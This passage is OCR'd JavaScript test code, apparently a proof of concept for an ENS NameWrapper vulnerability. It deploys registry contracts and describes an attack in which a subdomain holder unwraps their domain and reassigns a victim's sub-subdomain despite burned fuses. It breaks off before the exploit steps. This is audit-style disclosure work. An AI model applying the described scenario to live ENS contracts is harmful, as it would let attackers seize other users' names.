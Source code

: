 ```javascript
    EnsRegistry = await deploy('ENSRegistry')
    EnsRegistryV = EnsRegistry.connect(signers[1])
    EnsRegistryH = EnsRegistry.connect(signers[2])

    BaseRegistrar = await deploy(
      'BaseRegistrarImplementation',
      EnsRegistry.address,
      namehash('eth')
    )

    await BaseRegistrar.addController(dev)
    await BaseRegistrar.addController(victim)

    MetaDataservice = await deploy(
      'StaticMetadataService',
      'https://ens.domains'
    )

    NameWrapper = await deploy(
      'NameWrapper',
      EnsRegistry.address,
      BaseRegistrar.address,
      MetaDataservice.address
    )
    NameWrapperV = NameWrapper.connect(signers[1])
    NameWrapperH = NameWrapper.connect(signers[2])

    // setup .eth
    await EnsRegistry.setSubnodeOwner(
      ROOT_NODE,
      labelhash('eth'),
      BaseRegistrar.address
    )

    //make sure base registrar is owner of eth TLD
    expect(await EnsRegistry.owner(namehash('eth'))).to.equal(
      BaseRegistrar.address
    )
  })

  beforeEach(async () => {
    result = await ethers.provider.send('evm_snapshot')
  })
  afterEach(async () => {
    await ethers.provider.send('evm_revert', [result])
  })

  describe('subdomain can be re-wrapped', () => {
    /*
     * Attack scenario:
     *  + Someone owns a domain (or a 2LD), e.g., poc.eth
     *  + The domain owner assigns a sub-domain to the hacker, e.g., hack.poc.eth
     *      + This sub-domain should not burn `CANNOT_UNWRAP`
     *      + This sub-domain can burn `PARENT_CANNOT_CONTROL`
     *  + Hacker assigns a sub-sub-domain to a victim user, e.g., victim.hack.poc.eth
     *  + The victim user burns arbitrary fuses, including `PARENT_CANNOT_CONTROL`
     *  + The hacker unwraps his sub-domain, i.e., hack.poc.eth
     *  + The hacker invokes `ENSRegistry::setSubnodeOwner` on the sub-sub-domain
     *      + He can reassign himself as the owner of the victim.hack.poc.eth
     *  + The sub-sub-domain is now owned by the hacker with more permissive fuses
     */
    before(async () => {
      await BaseRegistrar.addController(NameWrapper.address)
```